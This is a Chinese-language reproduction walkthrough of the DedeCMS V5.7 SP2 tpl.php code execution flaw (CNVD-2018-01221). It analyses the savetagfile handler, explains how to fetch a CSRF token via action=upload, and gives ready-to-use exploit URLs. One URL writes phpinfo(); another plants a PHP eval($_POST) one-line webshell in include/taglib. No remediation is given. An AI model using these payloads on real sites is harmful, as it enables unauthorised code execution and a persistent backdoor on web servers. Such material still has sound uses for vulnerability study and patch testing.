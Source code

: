 ```yaml
---
title: "（CNVD-2018-01221）DedeCMS V5.7 SP2存在代码执行漏洞"
id: zhfly2866
---
```


# （CNVD-2018-01221）DedeCMS V5.7 SP2存在代码执行漏洞

## 一、漏洞简介

DedeCMS V5.7 SP2版本中tpl.php存在代码执行漏洞，攻击者可利用该漏洞在增加新的标签中上传木马，获取webshell

## 二、漏洞影响

## 三、复现过程

需要登录后台

根据公开的漏洞知道tpl.php里面251-281行存在代码执行漏洞，打开tpl.php文件

![image](../img/d99da34b0f5d65578e26539ef985fd9c.png)

### 代码分析

```
(1)此处定义了一个savetagfile的函数，首先做一个判断，参数“action”是否等于savetagfile，如果等于，就进行下一步
(2)csrf_chack(),这里有一个csrf检验的函数，我们需要加上token来绕过，token是登陆的令牌，当我们向服务器发送登录请求时，在客户端会生成一个用于验证的令牌。
(3)正则表达式匹配，详情参见https://www.runoob.com/regexp/regexp-rule.html*
   [a-z0-9_-]{1,}的意思是，匹配所有包含一个以上的字母数字下划线和横杠，后面的\.意思是匹配小数点
   所以最终那个判断条件的意思是如果参数filename不符合上述的匹配条件，那么就不允许修改操作的进行，所以文件名必须要.lib.php结尾。
(4)preg_replace的意思是执行一个正则表达式的搜索和替换，我们可以通过例子来分析一下,发现得到的$tagname的值为moonsec
(5)stripslashes()的作用是引用用一个引用字符串，此处没有多大的作用
(6)最后是把$content里的内容写入到相对用的路径里，问题就出在了这里，这一部分代码除了对写入的文件名字做了简单的过滤，除了有一个csrf防护之外，其他并没有什么安全措施，     
   导致我们可以任意写入代码，如果我们直接写入一句话木马，那么就可以直接连上去拿webshell了 
```

根据上面的代码知道要上传的参数有：action,token,filename,content.现在只剩下获取token了，要怎么才能获取到token呢？我们再去tpl.php里看一下，发现action的参数有很多，比如del，upoladok，edit，upload等等，但只有传入upload的时候页面才会回显正常，而其他的都会显示token异常，所以只能通过action=upload来获取token。

### 漏洞复现

获取token

```
http://0-sec.org/dede/tpl.php?action=upload 
```

![image](../img/1459432538da7212ba5139b3a25c8557.png)

然后查看网页源代码，找到token

![image](../img/3d999fc3693f2524807b2657af8a1ca9.png)

构造payload如下

```
http://0-sec.org/dede5.7/dede/tpl.php?filename=(文件名随意).lib.php&action=savetagfile&content=%3C?php%20phpinfo();?%3E&token=f1ccc319d5c897a3a362335792a21e05(替换你复制的token) 
```

访问了成功写入

![image](../img/bb4b44a582af03df930d8ed1964157fc.png)

访问写入的文件

```
http://0-sec.org/include/taglib/（你上传的文件名）.lib.php 
```

![image](../img/bb3534a0be506b2e75062f754310c031.png)

也可以构造一句话木马payload

```
http://0-sec.org/dede5.7/dede/tpl.php?filename=caidao.lib.php&action=savetagfile&content=%3C?php%20@eval($_POST[%27dylan%27])?%3E&token=2d7ef87e9828edaad2d7b6bbe37f1929 
```

![image](../img/c8635600d4a44c2f39976ff9ce6cf97d.png)